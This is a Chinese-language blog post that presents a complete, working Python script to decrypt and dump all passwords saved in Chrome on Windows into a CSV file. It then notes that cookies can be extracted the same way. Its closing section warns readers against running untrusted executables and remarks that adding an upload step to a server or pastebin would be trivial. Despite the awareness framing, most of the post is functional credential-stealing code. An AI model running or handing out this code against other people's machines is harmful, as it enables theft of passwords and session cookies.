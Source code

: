 ```yaml
---
title: "Python 提取 Chrome 本地保存的密码"
subTitle: "请避免使用 Chrome 的自动填充密码功能"
date: 2021-07-06T15:11:14+08:00
tags: ["网络安全", "Chrome", "Python"]
series: ["Cryptology"]
related: true
toc: false
---
```


## 实现

尝试新建文件 `get_pwd_from_chrome.py`：  

```Python
import os
import json
import base64
import sqlite3
import shutil
import winreg
from time import perf_counter
from win32crypt import CryptUnprotectData
from cryptography.hazmat.primitives.ciphers.aead import AESGCM


def get_desktop():
    key = winreg.OpenKey(winreg.HKEY_CURRENT_USER, r'Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders')
    return winreg.QueryValueEx(key, "Desktop")[0]


def get_string(local_state):
    with open(local_state, 'r', encoding='utf-8') as f:
        s = json.load(f)['os_crypt']['encrypted_key']
    return s


def pull_the_key(base64_encrypted_key):
    encrypted_key_with_header = base64.b64decode(base64_encrypted_key)
    encrypted_key = encrypted_key_with_header[5:]
    key = CryptUnprotectData(encrypted_key, None, None, None, 0)[1]
    return key


def decrypt_string(key, data):
    nonce, cipherbytes = data[3:15], data[15:]
    aesgcm = AESGCM(key)
    plainbytes = aesgcm.decrypt(nonce, cipherbytes, None)
    plaintext = plainbytes.decode('utf-8')
    return plaintext


def get_password_from_chrome():
    local_state = os.environ['LOCALAPPDATA'] + r'\Google\Chrome\User Data\Local State'
    origin_file = os.path.join(os.environ['LOCALAPPDATA'], r'Google\Chrome\User Data\Default\Login Data')

    tmp_file = os.path.join(os.environ['LOCALAPPDATA'], 'chrome_password.db')
    if os.path.exists(tmp_file):
        os.remove(tmp_file)
    shutil.copyfile(origin_file, tmp_file)
    pwd_text = "网站,帐号,密码\n"
    sql = "select signon_realm,username_value,password_value from logins"
    with sqlite3.connect(tmp_file) as conn:
        cu = conn.cursor()
        res = cu.execute(sql).fetchall()
        cu.close()
        key = pull_the_key(get_string(local_state))
        for signon_realm, username_value, password_value in res:
            if password_value[0:3] == b'v10':
                password = decrypt_string(key, password_value)
            else:
                password = CryptUnprotectData(password_value)[1].decode()
            pwd_text += '"%s","%s","%s"\n' % (signon_realm, username_value, password)
    conn.close()
    os.remove(tmp_file)

    filename = os.path.join(get_desktop(), r'chrome_password.csv')
    with open(filename, 'w') as f:
        f.write(pwd_text)


if __name__ == "__main__":
    start = perf_counter()
    get_password_from_chrome()
    elapsed = perf_counter() - start
    print(f"已将 Chrome 中保存的密码提取到桌面的 chrome_password.csv 文件\n用时 {elapsed} 秒")
```

```Bash
$ pip install pywin32 cryptography
$ python ./get_pwd_from_chrome.py

已将 Chrome 中保存的密码提取到桌面的 chrome_password.csv 文件
用时 0.04970019999999997 秒
```

打开桌面上的 `chrome_password.csv`\* 看看。  

> \* 没有 Excel 的话随便什么文本编辑器都行。  

## 其他应用

不拿密码，而是从 Chrome 的本地数据库拿 cookie 也是做得到的。  
我的各种网站和 APP 自动签到脚本就利用了这个技巧。  
服务器上的 cookies 过期需要更新的时候（服务器和本地的 cookies 永远是同步的），我在自己电脑上重新登录，一键把刷新后的 cookies 上传到服务器，自动签到又继续工作了。  
甚至可以做到过期时通知本地然后自动登录更新 cookies，但我没有采用这种全自动方案，太过于智能会导致我没有安全感。  

## 结论

运行上面这个脚本，你的杀软报毒了吗？  
那我再加一行代码，把你的 `chrome_password.csv` 上传到我的服务器\*，真的很难吗？  

> \* 即便我是个怂比，挂了一万层代理，仍然害怕暴露身份。  
> 大不了放弃直球上传，换成用 [pastebin](https://paste.ubuntu.com/) 之类的在线剪贴板转一道手，多大点事。  
> 2021 年了，互联网发展到如今，鸭子都到嘴里了还怕我叼不走吗？  

> 2021.11.17 悲报，前段时间发现 pastebin 要注册才能发内容了。  
> ~~不过还有别的在线剪贴板~~  

所以请一定牢记「**不能随便运行**网上下的或者别人给的**可执行文件**\*」。  

> \* 包括但不限于 `.exe` / `.apk` 等等。  
> 尤其是喜欢折腾安卓（反手就是一个 root）安全意识又不到位的。  
> 手机上能丢的隐私可比 PC 上多太多了。  

对方如果真的没安好心，不说上什么厉害的大马（远程控制、加密你的重要文件然后进行勒索、etc），就是简单一个顺手牵羊你都受不了。  
